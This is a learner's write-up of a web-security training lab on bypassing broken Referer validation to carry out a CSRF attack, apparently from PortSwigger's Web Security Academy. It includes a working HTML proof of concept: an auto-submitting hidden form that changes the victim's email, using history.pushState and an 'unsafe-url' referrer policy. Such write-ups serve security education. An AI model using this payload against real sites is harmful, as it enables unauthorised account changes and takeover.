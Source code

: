 # Practitioner Lab 87: CSRF with broken Referer validation

---

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

![Untitled](Practitioner%20Lab%2087%20CSRF%20with%20broken%20Referer%20valid%204ceb0554c0a442aa8f08e487ac8451a7/Untitled.png)

When I try to send a normal payload it gives me the error saying that I require valid referer header 

Now I know that I must see how it works. 

Sometimes if the referer header is ommited then the validation is also ommited. 

This did not work in this case meaning that I must change my payload somehow to include the referer. 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5400700454ae25826e66db00160040.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test" />
      <input type="submit" value="Submit request" />
    </form>
<meta name="referrer" content="unsafe-url">
    <script>
      history.pushState('', '', '/?0a5400700454ae25826e66db00160040.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

I added the referer url to the history.pushState this allowed me to change the referer. 

I had to also change the policy for the referrer to unsafe-url.

![Untitled](Practitioner%20Lab%2087%20CSRF%20with%20broken%20Referer%20valid%204ceb0554c0a442aa8f08e487ac8451a7/Untitled%201.png)